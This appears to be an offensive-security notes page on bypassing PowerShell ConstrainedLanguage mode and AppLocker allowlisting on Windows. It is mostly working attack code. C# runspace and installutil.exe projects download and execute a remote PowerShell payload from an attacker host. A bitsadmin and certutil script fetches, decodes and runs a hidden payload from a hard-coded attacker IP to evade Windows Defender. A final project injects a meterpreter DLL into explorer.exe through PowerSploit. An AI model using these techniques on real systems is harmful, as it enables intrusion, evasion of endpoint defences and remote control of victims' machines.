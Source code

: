 ```yaml
---
title: PowerShell AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - powershell
  - bypass
  - allowlist
  - whitelist
---
```


## Language modes

To get our current user's **PowerShell** language mode, invoke the following:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Under `ConstrainedLanguage` mode, only scripts that comply with the
**AppLocker** allowlist, existing within a allowlisted directory or comply with
a allowlisting rule, can execute with full functionality. These limitations also
restrict users from invoking the **.NET** framework from PowerShell to execute
C# code or conduct reflection.

## Creating a custom runspace

PowerShell functionality exists within the `System.Management.Automation.dll`
managed DLL, used by PowerShell to create a **runspace**. **Runspaces** are how
PowerShell managed jobs, multithreading, and parallel task execution, accessible
to managed code written in C# and .NET.

Creating a C# .NET project, we can create our own runspace with the following
code, bypassing the `ConstrainedLanguage` mode, and executing a PowerShell
**meterpreter** reverse shell payload:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

## Bypass directory restrictions with installutil

Using code from our C# .NET project in the previous section,
[[powershell-applocker-bypass#Creating a custom runspace|Creating a custom runspace]],
we can create a project with valid symbols for the Windows `installutil.exe`
utility:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

### Transferring the payload

The problem with using `installutil.exe` is that the payload needs to be written
to disk, creating an opening for Windows Defender to scan and inspect our
payload during download as well as storage on the host. We can use a combination
of `bitsadmin.exe` and `certutil.exe` to securely transfer the payload and
execute it.

The following invocation uses `certutil.exe` to encode the payload:

```powershell
certutil -encode "${PAYLOAD_PATH}" "${OUTFILE}"
```

The following invocation downloads the encoded payload from your attacker host
and executes it:

```powershell
$InstallUtilProgram = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "installutil.exe" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName
$BitsAdminProgram = (Get-Command -Name "bitsadmin").Source
$CertUtilProgram = (Get-Command -Name "certutil").Source

$lHost = "192.168.45.190"
$lPort = "80"
$encodedFileName = "encoded.txt"
$uri = "http://${lHost}:${lPort}/$encodedFileName"
$decodedFileName = "Bypass.exe"
$encodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $encodedFileName
)
$decodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $decodedFileName
)

Start-Process `
	-FilePath $BitsAdminProgram `
	-ArgumentList @(
		"/TRANSFER",
		"transferJob",
		$uri,
		$encodedFilePath
	) `
	-WindowStyle Hidden `
	-Wait

Start-Process `
    -FilePath $CertUtilProgram `
    -ArgumentList @(
	    "-decode",
	    $encodedFilePath,
	    $decodedFilePath
    ) `
    -WindowStyle Hidden `
    -Wait

Remove-Item -Path $encodedFilePath

Start-Process `
    -FilePath $InstallUtilProgram `
    -ArgumentList @(
	    "/LogFile=",
	    "/LogToConsole=false",
	    "/U",
	    $decodedFilePath
    ) `
    -WindowStyle Hidden
```

Make sure to host your payload on an HTTP server that supports `bitsadmin`, e.g.
`apache2`:

```bash
sudo systemctl start apache2
```

## Reflective DLL injection

Using
[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
from **PowerSploit**, we can also inject **meterpreter** reverse shell payload
DLLs into target processes through this **PowerShell** code execution bypass
using C# .NET.

The following C# .NET project uses the previous `installutil.exe` technique to
download a payload from our attacker host and inject it into the `explorer.exe`
process:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd =
@"$bytes = (Invoke-WebRequest -Uri 'http://${LHOST}:${LPORT}/Payload.dll' -UseBasicParsing).Content
(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Invoke-ReflectivePEInjection.ps1') | Invoke-Expression
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid -ErrorAction SilentlyContinue";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
